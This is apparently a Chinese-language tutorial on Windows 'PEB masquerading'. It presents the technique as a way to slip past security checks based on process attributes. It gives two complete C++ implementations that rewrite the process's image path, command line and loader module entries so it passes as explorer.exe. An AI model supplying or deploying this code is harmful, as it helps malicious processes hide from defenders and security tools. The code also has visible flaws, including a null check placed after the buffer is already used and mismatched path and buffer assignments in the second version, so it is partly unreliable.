

# 简介

PEB伪装技术是一种安全测试和系统渗透技术，用于绕过某些基于进程属性检查的安全措施。它通过修改当前进程的进程环境块（PEB）中的信息来实现：

- **获取当前进程的 PEB**：通过系统调用或内联汇编获取 PEB 指针。
- **修改 PEB 中的数据**：更改 PEB 中的关键信息，如进程名称、命令行参数等，使其看起来像是另一个受信任的进程（如 `explorer.exe`）。
- **伪装模块列表**：修改 PEB 的模块链表中的条目，改变模块的名称和路径。


# 代码实现1

## 实现思路

### 1.获取当前进程PEB

```cpp
// 获取PEB的地址
PPEB NtGetPEB() {
#ifdef _M_X64
    return (PPEB)__readgsqword(0x60);
#elif _M_IX86
    return (PPEB)__readfsdword(0x30);
#else
#error "This architecture is currently unsupported"
#endif
}
```


### 2.定义PEB相关结构体

代码中定义了 `_PEB`, `_PEB_LDR_DATA`, `_RTL_USER_PROCESS_PARAMETERS`, 和 `_LDR_DATA_TABLE_ENTRY` 等结构体，用于操作 PEB 和相关数据, 以下代码演示其中一部分

```cpp
/**
    * Define local PEB LDR DATA
    */
    typedef struct _PEB_LDR_DATA {
        ULONG Length;
        BOOLEAN Initialized;
        HANDLE SsHandle;
        LIST_ENTRY InLoadOrderModuleList;
        LIST_ENTRY InMemoryOrderModuleList;
        LIST_ENTRY InInitializationOrderModuleList;
        PVOID EntryInProgress;
        BOOLEAN ShutdownInProgress;
        HANDLE ShutdownThreadId;
    } PEB_LDR_DATA, * PPEB_LDR_DATA;


    /**
     * Define local RTL USER PROCESS PARAMETERS
     */
    typedef struct _RTL_USER_PROCESS_PARAMETERS {
        BYTE           Reserved1[16];
        PVOID          Reserved2[10];
        UNICODE_STRING ImagePathName;
        UNICODE_STRING CommandLine;
    } RTL_USER_PROCESS_PARAMETERS, * PRTL_USER_PROCESS_PARAMETERS;
```


### 3.构造系统进程的路径

```cpp
WCHAR szExplorerPath[MAX_PATH];
    GetWindowsDirectoryW(szExplorerPath, MAX_PATH);
    wcscat_s(szExplorerPath, MAX_PATH, L"\\explorer.exe");
    LPWSTR pwExplorerPath = (LPWSTR)malloc(MAX_PATH * sizeof(wchar_t));
    wcscpy_s(pwExplorerPath, MAX_PATH, szExplorerPath);
    if (pwExplorerPath == NULL) {
        wprintf(L"Memory allocation failed\n");
        return -1;
    } 
    wprintf(L"The explorer.exe path:%ls\n", pwExplorerPath);
```


### 4.通过临界区修改PEB

使用 `RtlEnterCriticalSection` 函数进入PEB的临界区，将PEB 中的 `ImagePathName` 和 `CommandLine` 修改为系统进程的路径

随后遍历`LDR`链表，查找到当前可执行程序所在模块，并将其`FullDllName` 和 `BaseDllName` 修改为系统进程的路径

最后使用`RtlLeaveCriticalSection`函数离开临界区

```cpp
PEB* peb = (PEB*) NtGetPEB();
    RtlEnterCriticalSection(peb->FastPebLock);
    RtlInitUnicodeString(&peb->ProcessParameters->ImagePathName, pwExplorerPath);
    RtlInitUnicodeString(&peb->ProcessParameters->CommandLine, pwExplorerPath);
    PLDR_DATA_TABLE_ENTRY pStartModuleInfo = (PLDR_DATA_TABLE_ENTRY) peb->Ldr->InLoadOrderModuleList.Flink;
    PLDR_DATA_TABLE_ENTRY pNextModuleInfo = (PLDR_DATA_TABLE_ENTRY)peb->Ldr->InLoadOrderModuleList.Flink;
    WCHAR wExeFileName[MAX_PATH];
    GetModuleFileNameW(NULL, wExeFileName, MAX_PATH);
    do
    {
        if (_wcsicmp(wExeFileName,pNextModuleInfo->FullDllName.Buffer) == 0)
        {
            printf("Masquerading FullDllName and BaseDllName");
            RtlInitUnicodeString(&pNextModuleInfo->FullDllName, pwExplorerPath);
            RtlInitUnicodeString(&pNextModuleInfo->BaseDllName, pwExplorerPath);
            break;
        }
        pNextModuleInfo = (PLDR_DATA_TABLE_ENTRY)pNextModuleInfo->InLoadOrderLinks.Flink;
    } while (pNextModuleInfo != pStartModuleInfo);
    RtlLeaveCriticalSection(peb->FastPebLock);
```


## 完整代码

```cpp
// 获取PEB的地址
PPEB NtGetPEB() {
#ifdef _M_X64
    return (PPEB)__readgsqword(0x60);
#elif _M_IX86
    return (PPEB)__readfsdword(0x30);
#else
#error "This architecture is currently unsupported"
#endif
}


int MasqueradePEB_1(const wchar_t* SystemProcess) {
    
    // PEB相关结构体定义
    typedef struct _PEB_LDR_DATA {
        ULONG Length;
        BOOLEAN Initialized;
        HANDLE SsHandle;
        LIST_ENTRY InLoadOrderModuleList;
        LIST_ENTRY InMemoryOrderModuleList;
        LIST_ENTRY InInitializationOrderModuleList;
        PVOID EntryInProgress;
        BOOLEAN ShutdownInProgress;
        HANDLE ShutdownThreadId;
    } PEB_LDR_DATA, * PPEB_LDR_DATA;
    typedef struct _RTL_USER_PROCESS_PARAMETERS {
        BYTE           Reserved1[16];
        PVOID          Reserved2[10];
        UNICODE_STRING ImagePathName;
        UNICODE_STRING CommandLine;
    } RTL_USER_PROCESS_PARAMETERS, * PRTL_USER_PROCESS_PARAMETERS;
    typedef struct _PEB {
        BOOLEAN InheritedAddressSpace;
        BOOLEAN ReadImageFileExecOptions;
        BOOLEAN BeingDebugged;
        union
        {
            BOOLEAN BitField;
            struct
            {
                BOOLEAN ImageUsesLargePages : 1;
                BOOLEAN IsProtectedProcess : 1;
                BOOLEAN IsLegacyProcess : 1;
                BOOLEAN IsImageDynamicallyRelocated : 1;
                BOOLEAN SkipPatchingUser32Forwarders : 1;
                BOOLEAN SpareBits : 3;
            };
        };
        HANDLE Mutant;

        PVOID ImageBaseAddress;
        PPEB_LDR_DATA Ldr;
        PRTL_USER_PROCESS_PARAMETERS ProcessParameters;
        PVOID SubSystemData;
        PVOID ProcessHeap;
        PRTL_CRITICAL_SECTION FastPebLock;
    } PEB, * PPEB;
    typedef struct _LDR_DATA_TABLE_ENTRY {
        LIST_ENTRY InLoadOrderLinks;
        LIST_ENTRY InMemoryOrderLinks;
        union
        {
            LIST_ENTRY InInitializationOrderLinks;
            LIST_ENTRY InProgressLinks;
        };
        PVOID DllBase;
        PVOID EntryPoint;
        ULONG SizeOfImage;
        UNICODE_STRING FullDllName;
        UNICODE_STRING BaseDllName;
        ULONG Flags;
        WORD LoadCount;
        WORD TlsIndex;
        union
        {
            LIST_ENTRY HashLinks;
            struct
            {
                PVOID SectionPointer;
                ULONG CheckSum;
            };
        };
        union
        {
            ULONG TimeDateStamp;
            PVOID LoadedImports;
        };
    } LDR_DATA_TABLE_ENTRY, * PLDR_DATA_TABLE_ENTRY;
    
    typedef NTSTATUS(NTAPI* _RtlEnterCriticalSection) (PRTL_CRITICAL_SECTION CriticalSection);
    typedef NTSTATUS(NTAPI* _RtlLeaveCriticalSection) (PRTL_CRITICAL_SECTION CriticalSection);
    typedef void (WINAPI* _RtlInitUnicodeString)(PUNICODE_STRING DestinationString, PCWSTR SourceString);

    _RtlEnterCriticalSection RtlEnterCriticalSection = (_RtlEnterCriticalSection)GetProcAddress(GetModuleHandleW(L"ntdll.dll"), "RtlEnterCriticalSection");
    if (RtlEnterCriticalSection == NULL) {
        printf("Could not find RtlEnterCriticalSection.");
        return 1;
    }

    _RtlLeaveCriticalSection RtlLeaveCriticalSection = (_RtlLeaveCriticalSection)GetProcAddress(GetModuleHandleW(L"ntdll.dll"), "RtlLeaveCriticalSection");
    if (RtlLeaveCriticalSection == NULL) {
        printf("Could not find RtlLeaveCriticalSection.");
        return 1;
    }

    _RtlInitUnicodeString RtlInitUnicodeString = (_RtlInitUnicodeString)GetProcAddress(GetModuleHandleW(L"ntdll.dll"), "RtlInitUnicodeString");
    if (RtlInitUnicodeString == NULL) {
        printf("Could not find RtlInitUnicodeString.");
        return 1;
    }

    // 构造系统进程路径
    WCHAR szExplorerPath[MAX_PATH];
    GetWindowsDirectoryW(szExplorerPath, MAX_PATH);
    
    wcscat_s(szExplorerPath, MAX_PATH, SystemProcess);
    LPWSTR pwExplorerPath = (LPWSTR)malloc(MAX_PATH * sizeof(wchar_t));
    wcscpy_s(pwExplorerPath, MAX_PATH, szExplorerPath);
    if (pwExplorerPath == NULL) {
        wprintf(L"Memory allocation failed\n");
        return -1;
    } 
    wprintf(L"The explorer.exe path:%ls\n", pwExplorerPath);
  
    // 通过临界区修改PEB
    PEB* peb = (PEB*) NtGetPEB();
    RtlEnterCriticalSection(peb->FastPebLock);
    RtlInitUnicodeString(&peb->ProcessParameters->ImagePathName, pwExplorerPath);
    RtlInitUnicodeString(&peb->ProcessParameters->CommandLine, pwExplorerPath);
    PLDR_DATA_TABLE_ENTRY pStartModuleInfo = (PLDR_DATA_TABLE_ENTRY) peb->Ldr->InLoadOrderModuleList.Flink;
    PLDR_DATA_TABLE_ENTRY pNextModuleInfo = (PLDR_DATA_TABLE_ENTRY)peb->Ldr->InLoadOrderModuleList.Flink;
    WCHAR wExeFileName[MAX_PATH];
    GetModuleFileNameW(NULL, wExeFileName, MAX_PATH);
    do
    {
        if (_wcsicmp(wExeFileName,pNextModuleInfo->FullDllName.Buffer) == 0)
        {
            printf("Masquerading FullDllName and BaseDllName");
            RtlInitUnicodeString(&pNextModuleInfo->FullDllName, pwExplorerPath);
            RtlInitUnicodeString(&pNextModuleInfo->BaseDllName, pwExplorerPath);
            break;
        }
        pNextModuleInfo = (PLDR_DATA_TABLE_ENTRY)pNextModuleInfo->InLoadOrderLinks.Flink;
    } while (pNextModuleInfo != pStartModuleInfo);
    RtlLeaveCriticalSection(peb->FastPebLock);
    
    return 0;
}
```


## 测试效果

使用`ProcessExplorer`查看`Image`选项，可发现其`path`和`Command Line`的值都被修改成系统进程路径了

	


# 代码实现2

## 完整代码

除了上述方法可获取PEB地址之外，还可以通过`NtQueryInformationProcess`函数获取`PROCESS_BASIC_INFORMATION` 结构，此结构包含PEB的地址

```cpp
int MasqueradePEB_2() {
    typedef DWORD(*pNtQueryInformationProcess) (HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);

    HANDLE hProcess = 0;
    ULONG lenght = 0;
    HANDLE hModule;
    PROCESS_BASIC_INFORMATION ProcessInformation;
    pNtQueryInformationProcess NtQueryInformationProcess;
    wchar_t CommandLine[] = L"C:\\Windows\\system32\\explorer.exe";
    wchar_t CurrentDirectory[] = L"C:\\Windows\\system32\\";
    
    hModule = GetModuleHandleA("Ntdll.dll");
    hProcess = GetCurrentProcess();
    NtQueryInformationProcess = (pNtQueryInformationProcess)GetProcAddress(hModule, "NtQueryInformationProcess");
    NtQueryInformationProcess(hProcess, ProcessBasicInformation, &ProcessInformation, sizeof(ProcessInformation), &lenght);

    ProcessInformation.PebBaseAddress->ProcessParameters->CommandLine.Length = sizeof(CommandLine);
    ProcessInformation.PebBaseAddress->ProcessParameters->ImagePathName.Length = sizeof(CurrentDirectory);
    ProcessInformation.PebBaseAddress->ProcessParameters->CommandLine.Buffer = &CommandLine;
    ProcessInformation.PebBaseAddress->ProcessParameters->ImagePathName.Buffer = &CurrentDirectory;
    
    getchar();
    return 0;
}
```

